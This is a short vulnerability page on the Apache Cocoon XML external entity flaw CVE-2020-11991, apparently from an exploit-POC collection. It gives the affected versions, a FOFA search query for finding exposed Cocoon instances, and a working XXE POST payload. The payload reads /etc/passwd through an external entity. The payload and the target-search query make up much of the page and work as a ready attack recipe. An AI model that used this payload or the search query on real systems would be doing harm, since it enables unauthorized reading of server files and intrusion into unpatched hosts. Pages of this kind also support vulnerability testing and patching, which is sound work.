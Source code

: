 ```yaml
---
Title: Apache Cocoon XML Injection CVE-2020-11991
---
```


# Apache Cocoon XML Injection CVE-2020-11991

 

## Vulnerability Description

On September 11, the Apache Software Foundation issued a security announcement to fix the Apache Cocoon xml external entity injection vulnerability (CVE-2020-11991).

Apache Cocoon is a framework based on the Spring framework built around the concept of separation. All processing under this framework is linearly connected by predefined processing components, allowing inputs and generated outputs to be processed in pipeline order. 

 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Cocoon <= 2.1.12</span>

 

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUtQ29jb29uIg%3D%3D">app="Apache-Cocoon"</a-button>
</a-checkbox>

## Vulnerability reappears

Verify POC

```xml
POST /v2/api/product/manger/getInfo 

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```


